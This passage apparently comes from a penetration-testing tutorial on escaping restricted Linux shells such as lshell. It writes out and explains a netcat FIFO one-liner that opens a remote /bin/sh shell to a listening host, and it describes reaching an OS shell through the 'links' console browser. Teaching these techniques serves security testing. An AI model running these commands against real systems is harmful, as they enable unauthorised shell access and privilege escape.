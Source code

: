 Let’s have a look at our attackers client on port 5000:

We can see a connection coming from our victim. Let’s issue some commands on the attacker side and see what we can get:


As you can see, we successfully bypassed lshell command list restriction executing a connection to our attacker machine and 
sending to it the victim’s /bin/bash shell that we were not allowed to execute before.

Just as a hint, nc is what we call a “Network Swiss Army Knife” and is installed by default in many different Linux distributions. 
It is not unusual for administrators with some security knowledge to uninstall it or enforce restrictions so it can’t be used by 
general users besides root. Another drawback of nc is that the BSD version, if in use, has no -e/-c flags, so we would never be able 
to inject a shell using it.

Another way to get a reverse shell with nc is by adding some creativity and knowledge of Linux operating systems internals with other tools and pipes already provided by Linux systems out of the box.

On the victim’s machine we will execute the following command:

$ rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.0.21 5000 > /tmp/f”

Analyzing this command in parts (separated by semicolons), the first “rm -f /tmp/f” is used to force delete the “/tmp/f” if it exists. 
The second command “mkfifo /tmp/f” is creating the same file as a fifo file. Fifo (First-In First-Out) is a special type of file, 
similar to a pipe, it can be opened by multiple processes for reading and writing. We are going to use this file as a pipe to exchange 
data between our interactive shell and nc.

The third command “cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.0.21 5000 > /tmp/f” does a lot of things. First it opens the fifo 
file we created then pipe it’s contents to a shell with interactive mode on (/bin/sh -i), also redirecting any error output to the 
standard output (2>&1). Right after that it’s piping all the results, as a reverse shell, to victim nc listening on victim’s IP. 
Now attacker’s machine don’t need to listen to a incoming shell because we made the victim listen for a shell instead. 
Now from the attacker machine we try to connect to the victim on port 5000, and we get our shell.

This kind of FIFO shell is very tricky, very verbose, error prone and little bit harder to run from injected shellcode, 
but it’s yet another option. Remember that this kind of reverse shell technique will only work if the restricted shell allows 
redirect and escape characters.

4.Console Browsers

You might be familiar with some Linux console browsers around, such as “links”, “lynx” and “elinks”. 
Browsers are a very good option for escaping to other commands and shells.

Let’s begin with a very dumb example. Let’s take “links” for instance. After opening any website with a text box, “google.com” 
for example, hit ESC once, that will lead you to the configuration menu. Hit FILE > OS Shell. There you have it! An easy shell.
